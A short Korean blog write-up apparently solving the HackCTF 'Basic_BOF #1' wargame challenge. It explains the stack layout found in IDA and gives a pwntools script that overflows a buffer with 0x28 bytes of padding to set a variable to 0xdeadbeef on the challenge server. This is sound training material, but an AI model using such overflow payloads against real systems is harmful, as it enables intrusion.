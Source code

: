 ```yaml
---
title: "[ HackCTF ] Basic_BOF #1"
date: 2023-03-06T14:29:31.443Z
categories: ["Wargame", "HackCTF"]
tags: ["HackCTF","pwn"]

---
```


### **문제 분석**

---

![](/images/hackctf-basic_bof1.png)

IDA로 분석해보면 변수 s에 값을 입력받고, 변수 v5가 0xdeadbeef이면 flag를 얻을 수 있다.

<br>
<br>

### **문제 풀이**

---

s는 ebp-0x34에 위치하고 v5는 ebp-0xC에 위치하므로 0x28만큼의 dummy값을 입력하고 0xdeadbeef를 입력하면 된다.

```python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3000)

payload = ''
payload += 'A'*0x28
payload += p32(0xdeadbeef)

p.send(payload)
p.interactive()
```